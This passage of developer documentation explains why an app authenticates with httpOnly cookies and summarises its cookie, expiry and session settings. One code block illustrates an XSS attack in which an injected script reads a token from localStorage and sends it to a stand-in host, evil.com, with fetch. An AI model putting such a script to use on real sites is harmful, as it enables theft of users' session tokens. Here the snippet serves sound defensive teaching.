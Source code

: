 This ensures cookies work correctly across different ports.

---

## Why httpOnly Cookies Are Better

### Security Benefits:

1. **XSS Protection:** JavaScript cannot access the token
2. **Automatic Management:** Browser handles storage and sending
3. **Secure Flag:** Only sent over HTTPS in production
4. **SameSite:** Prevents CSRF attacks
5. **Expiry:** Browser automatically removes expired cookies

### How This Protects You:

```javascript
// ❌ If attacker injects malicious script (XSS attack):
<script>
  // Try to steal token
  const token = localStorage.getItem('auth_token');  // Would work with Bearer tokens
  fetch('https://evil.com/steal', { body: token });
</script>

// ✅ With httpOnly cookies:
<script>
  const token = document.cookie;  // Cannot access httpOnly cookies! ✅
  // Token theft is impossible via JavaScript
</script>
```

---

## Summary

| Aspect | Status |
|--------|--------|
| **Authentication Method** | httpOnly Cookie-based |
| **Token Location** | `auth_token` cookie (httpOnly, Secure, SameSite) |
| **Token in Header?** | ❌ No (Backend doesn't check Authorization header) |
| **Token in Cookie?** | ✅ Yes (Backend reads from `req.cookies.auth_token`) |
| **Manual Token Handling?** | ❌ No (Browser handles automatically) |
| **Frontend Config** | `credentials: 'include'` in fetch |
| **Token Expiry** | 30 minutes (refreshed every 5+ min on activity) |
| **Session Timeout** | 30 minutes inactivity |
| **Old Session Handling** | ✅ Auto-detected and cleared on page load |

---